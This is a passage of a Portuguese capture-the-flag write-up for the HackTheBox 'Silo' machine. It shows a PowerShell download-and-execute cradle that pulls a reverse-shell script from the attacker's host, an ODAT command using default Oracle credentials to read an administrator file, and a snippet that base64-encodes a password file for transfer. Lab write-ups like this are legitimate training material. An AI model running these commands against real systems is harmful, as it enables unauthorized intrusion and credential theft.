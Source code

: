 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_od1.png)

Agora utilizamos o mesmo arquivo de powershell que foi utilizado antes, abrimos o python web server e o nc na porta 443

`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_od2.png)

Recebemos a reverse shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_od3.png)

Bom, uma vez de posse de um shell de user na máquina, vamos dar início a escalação de privilégio. Será feito de 3 modos distintos, o primeiro através do dump de memória que tem no dropbox, o segundo por meio do oracle ainda, executando um executável malicioso como root e o terceiro através do rottenpotato

Última coisa, também podemos ler arquivos direto do ODAT

`python3 odat.py ctxsys -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --getFile c:\\users\\administrator\\desktop\\root.txt`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_oo.png)

# Escalação de Privilégio (1º Modo - Dump de memória)

Assim que entramos na máquina, verificamos a flag de user e na pasta onde a flag está temos um arquivo de texto que nos chamou atenção

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_p.png)

Vemos do que se trata

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_p1.png)

Bom, já vou adiantar aqui pra não ter problemas, a senha realmente é essa, contudo quando printamos ela, ela da um char errado, o 1º ao invés de ser ? é um £, para comprovar isso vamos passar esse arquivo para a nossa Kali através de base64

Passamos pra base64 o arquivo na máquina Silo

```
$fc = Get-Content "Oracle issue.txt"
$fe = [System.Text.Encoding]::UTF8.GetBytes($fc)
[System.Convert]::ToBase64String($fe)
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_p3.png)

Agora copiamos esse arquivo para a Kali, e passamos o base64 -d

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_p2.png)
